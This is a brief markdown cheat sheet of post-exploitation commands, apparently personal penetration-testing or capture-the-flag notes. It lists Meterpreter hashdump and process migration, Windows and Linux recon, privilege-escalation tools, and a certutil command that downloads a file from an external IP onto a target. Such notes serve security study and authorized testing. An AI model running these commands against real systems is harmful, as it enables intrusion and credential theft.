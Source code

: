 ## Meterpreter
### getuid
### sysinfo
### hashdump
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Use different process
```
ps
migrate
```
## Cmd
### route print
### netstat -ano
### arp -a
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```

## Bash
```
cat .bash_history
history
sudo -l
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
### https://www.fuzzysecurity.com/tutorials/16.html
